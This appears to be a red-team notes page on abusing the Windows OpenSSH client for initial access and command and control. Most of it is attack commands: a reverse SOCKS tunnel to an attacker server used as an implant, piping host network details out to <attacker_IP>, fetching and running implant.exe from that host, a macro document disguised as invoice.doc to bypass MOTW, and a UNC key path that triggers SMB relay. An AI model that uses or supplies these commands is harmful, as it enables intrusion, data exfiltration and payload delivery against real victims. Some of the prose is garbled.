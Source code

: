 # Remote Clients

Search Tag(s): #initial-access #living-off-the-foreign-land #living-off-the-land

## SSH

Refer to this [[04 - Remote Port Forwarding|section]] for remote port forwarding to configure the user without any requirement for authentication.

### Reverse Tunneling SOCKS Proxy

Instead of dropping malware instead we'll use `proxychains` or `privoxy` with the SSH server (the attacker's server) as the command and control which is legitimate, safer, and more familiar performing things remotely. This is considered as a non-malware implant.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
%SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
```

In the SSH server we should see a listening port of the SOCKS Proxy.

```
$ ss -antpl
```

However, there is a limitation since it contains no limitation. To resolve this issue you must perform local enumeration to gather information of the compromised target that was established via SSH. Include a shell scripting file or a custom dropper containing commands to automate the process. It doesn't have to be all of them but the more the better. At least collect the IPv4 address.

```
ipconfig /all | C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
ipconfig /all | %SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
```

### Download File and Execute

Transfer file to the system.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:implant.exe %AppData%\Microsoft\Templates\implant.exe\. && %AppData%\Microsoft\Templates\implant.exe" <username>@<attacker_IP>
```

TODO: This can be used to transfer embedded macro document to bypass MOTW.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\invoice.doc\. && %AppData%\Microsoft\Templates\invoice.doc" <username>@<attacker_IP>
```

### SMB Relay

For SSH server it doesn't to be from an attacker side. It can a real one as long the UNC path is set in order to execute command to perform SMB relay attack.

```
C:\> ssh -i \\<attacker_IP>\key.pem root@<IP>
```

---
## References

- [[SCP|File Transfer: SCP]]

### LOLBAS

- [LOLBAS: SSH](https://lolbas-project.github.io/lolbas/Binaries/Ssh/)

### Bitsadmin

- [BITSADMIN Blog: Living Off the Foreign Land](https://blog.bitsadmin.com/living-off-the-foreign-land-windows-as-offensive-platform)

### RedSiege

- [RedSiege: SSHishing – Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)